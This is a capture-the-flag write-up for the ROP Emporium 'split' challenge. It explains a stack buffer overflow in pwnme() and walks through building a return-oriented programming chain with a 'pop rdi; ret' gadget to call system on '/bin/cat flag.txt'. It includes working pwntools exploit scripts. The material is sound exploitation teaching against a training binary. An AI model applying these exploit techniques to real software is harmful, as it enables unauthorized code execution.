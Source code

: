 # ROP Emporium | split

## Chaining Concepts

This challenge uses a lot of concepts from ret2win, like overwriting ret address to call other functions. This is similar, except we aren't given a direct `/bin/cat flag.txt` function.

---

## What Does Executing `split` Do?

We begin with what the execution of `./split` looks like:

![output](Screenshots/split_ter.png)

- On 39 'A's, works.
- On 40 'A's, illegal hardware instruction.
- On 41 'A's, seg fault. And that's what we're interested in, because that means the stack's ret address was overwritten and couldn't find an address to send the instruction pointer to.

---

## The Vulnerable Function

Now we see that in the `pwnme()` function, buffer is allotted 32 bytes but read 96 bytes. This means we have 64 bytes to play around with.

![pwnme](Screenshots/pwnme.png)

In Cutter there's a function that Cutter found called `UsefulFunction()`:

![output](Screenshots/usefulFunc.png)

Now in its decompiled form, we see that it moves the string `"/bin/ls"` into the `edi` register and calls `system()` at address `0x0040074b`. `system()` is a function that reads from the `rdi` register (`edi` being the lower 32 bits of `rdi`, which is 64 bits).

![output](Screenshots/usefunc_decomp.png)

So, let's jump to the start of `UsefulFunction()` using a return address overwrite:

```python
from pwn import *
p = process('./split')
junk = b'A' * 40 # to fill the buffer and rbp
usefulfunc = p64(0x00400743)

payload = junk + usefulfunc

p.recvuntil('>') # to wait until it asks for input
p.sendline(payload)
p.interactive()
```

And it successfully executes `/bin/ls` as expected:

![output](Screenshots/ls.png)

---

## Understanding the Strings

Where is the string `"/bin/ls"` coming from?

It's stored in the binary, and we can see all stored strings in the Strings section of Cutter. Just below we see another string `"/bin/cat flag.txt"` and its address is `0x00601060`, and that's the one we want to execute through calling `system()`.

![output](Screenshots/strings.png)

---

## Planning the Exploit

Since in `UsefulFunc` we move the address of `'/bin/ls'` to `edi`, we first need to load the address of our desired string (`"/bin/cat flag.txt"`) into the `rdi` register, which is how `system()` receives its argument.

We use something called **gadgets** for this — combinations of small assembly instructions ending with a `ret`. The `ret` ending makes it so that we can overwrite that `ret` and jump to another function easily.

We need to find a `pop rdi` instruction to clear the `rdi` and insert the string `"/bin/cat flag.txt"` into `rdi`. Then we can use a `ret` after it to jump to the call to `system()` part of `UsefulFunc` which will execute our command.

---

## Finding the Gadget

For finding gadgets, ROPgadget works better than Cutter’s search. So we use:

```bash
ROPgadget --binary split --depth 12 | grep 'pop rdi'
```

This returns:

```
0x00000000004007c3 : pop rdi ; ret
```

A perfect `pop rdi` followed directly by a `ret`.

---

## Final Payload

```python
from pwn import *
p = process('./split')

junk = b'A' * 40
system_addr = p64(0x0040074b)
bin_flag = p64(0x00601060)
pop_rdi_ret = p64(0x00000000004007c3)

payload = junk + pop_rdi_ret + bin_flag + system_addr
p.recvuntil('>')
p.sendline(payload)

p.interactive()
```


This is a bit confusing to take in all at once, so let's slowly walk through it.

---

## Understanding the Stack Layout

Before payload injection:

```
+---------------------------+
| old return address        | ← [rbp + 8]
+---------------------------+
| saved rbp                 | ← [rbp]
+---------------------------+
| buffer[40]                | ← [rbp - 40] to [rbp - 1]
+---------------------------+
```

After payload injection:

```
+---------------------------+
| addr of calls system()    | ← [rbp + 24]
+---------------------------+
| '/bin/cat flag.txt'       | ← [rbp + 16]
+---------------------------+
|  pop rdi ; ret            | ← [rbp + 8] - Our Gadget
+---------------------------+
| saved rbp 'A'             | ← [rbp]
+---------------------------+
| buffer[40] - 'A's         | ← [rbp - 40] to [rbp - 1]
+---------------------------+
```

---

## Execution Walkthrough

The way executions happen is by sending an instruction to the RIP (Instruction Pointer). When the RSP (stack pointer) points to a certain instruction on the stack, `rip = [rsp]` — here the contents of rsp are sent to rip — and the instruction is executed then rsp moves up by 8 bytes to the next value on the stack.

`ret` also performs this by popping `[rsp]` to `rip` and moving the `rsp` up to the next value on the stack.

### Before Execution

- `rsp = [rbp]` (address of `pop rdi ; ret`)
- `rip = ret of pwnme()`
- `rdi = whatever` 


### Step 1: `ret` Moves Control to the Gadget

The original `ret` at the end of `pwnme()` pops the next value off the stack, which is the address of `pop rdi ; ret` and sends it to rip.

- `rip = 0x4007c3` (address of `pop rdi ; ret`)
- `rsp += 8` → now points to: `0x601060` (`"/bin/cat flag.txt"`)

---

### Step 2: `pop rdi` Executes

- Pops `0x601060` off the stack → `rdi = 0x601060`
- `rsp += 8` → now points to: `0x40074b`
- `rip` moves to the next instruction: `ret`

---

### Step 3: `ret` Executes

- Pops `0x40074b` off the stack → `rip = system()`
- `rsp += 8`

---

### Step 4: `system()` Executes

Now the program is executing `system()`. Since we just moved the string `"/bin/cat flag.txt"` into `rdi`, and `system()` uses `rdi` as its first argument (per calling convention), this works perfectly.

- `system(rdi)` → `system("/bin/cat flag.txt")`
- The flag is printed to stdout

---
---
![output](Screenshots/flag.png)
---